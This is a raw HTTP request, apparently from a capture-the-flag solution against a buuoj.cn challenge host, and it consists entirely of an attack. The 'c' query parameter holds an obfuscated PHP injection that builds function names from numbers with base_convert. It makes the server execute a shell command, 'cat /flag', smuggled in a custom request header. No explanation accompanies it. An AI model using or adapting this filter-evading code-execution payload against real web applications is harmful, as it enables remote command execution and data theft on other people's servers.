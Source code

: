 ```http
GET /?c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) HTTP/1.1
Host: 5f45c01f-ba8f-4226-b257-a443769cc63f.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
1: cat /flag
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
